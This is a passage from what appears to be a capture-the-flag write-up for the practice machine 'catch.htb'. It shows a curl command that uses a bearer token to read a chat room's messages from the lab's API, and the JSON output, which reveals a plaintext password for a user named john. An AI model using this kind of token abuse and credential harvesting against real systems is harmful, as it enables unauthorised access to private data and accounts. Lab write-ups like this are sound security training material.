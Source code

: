```json
	"name":"Employees",
	"description":"New Joinees, Org updates",
	"lastActive":"2021-12-14T10:18:04.710Z",
	"created":"2021-12-14T10:00:31.043Z",
	"owner":"61b86aead984e2451036eb16",
	"private":false,
	"hasPassword":false,
	"participants":[]}
]
```
Lets get the messages from the rooms aswell 

`curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages`
```json
[
	{"id":"61b8732cfe190b466d476c02",
	"text":"ah sure!",
	"posted":"2021-12-14T10:34:20.749Z",
	"owner":"61b86dbdfe190b466d476bf0",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b8731ffe190b466d476c01",
	"text":"You should actually include this task to your list as well as a part of quarterly audit",
	"posted":"2021-12-14T10:34:07.449Z",
	"owner":"61b86aead984e2451036eb16",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b872b9fe190b466d476c00",
	"text":"Also make sure we've our systems, applications and databases up-to-date.",
	"posted":"2021-12-14T10:32:25.514Z",
	"owner":"61b86dbdfe190b466d476bf0",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b87282fe190b466d476bff",
	"text":"Excellent! ",
	"posted":"2021-12-14T10:31:30.403Z",
	"owner":"61b86aead984e2451036eb16",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b87277fe190b466d476bfe",
	"text":"Why not. We've this in our todo list for next quarter",
	"posted":"2021-12-14T10:31:19.094Z",
	"owner":"61b86dbdfe190b466d476bf0",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b87241fe190b466d476bfd",
	"text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
	"posted":"2021-12-14T10:30:25.108Z",
	"owner":"61b86aead984e2451036eb16",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b8702dfe190b466d476bfa",
	"text":"Here are the credentials `john :  E}V!mywu_69T4C}W`",
	"posted":"2021-12-14T10:21:33.859Z",
	"owner":"61b86f15fe190b466d476bf5",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b87010fe190b466d476bf9",
	"text":"Sure one sec.",
	"posted":"2021-12-14T10:21:04.635Z",
	"owner":"61b86f15fe190b466d476bf5",
```